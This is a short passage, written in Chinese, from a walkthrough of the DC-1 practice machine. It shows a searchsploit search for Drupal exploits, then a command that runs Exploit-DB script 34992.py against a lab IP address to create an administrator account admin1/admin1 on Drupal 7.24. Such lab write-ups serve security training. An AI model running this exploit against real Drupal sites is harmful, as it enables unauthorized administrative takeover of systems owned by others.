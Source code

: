 ```
msf > searchsploit drupal   #查找针对Drupal的攻击脚本
```

攻击脚本适用于7.31以下，所以适合7.24版本

![img](靶机DC-1/20190927163259604.png)

利用drupal7.0版本漏洞增加有admin权限的用户：admin1/admin1

```
python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.220.130 -u admin1 -p admin1   
```

![img](靶机DC-1/20190927163259628.png)

![img](靶机DC-1/20190927163259623.png)
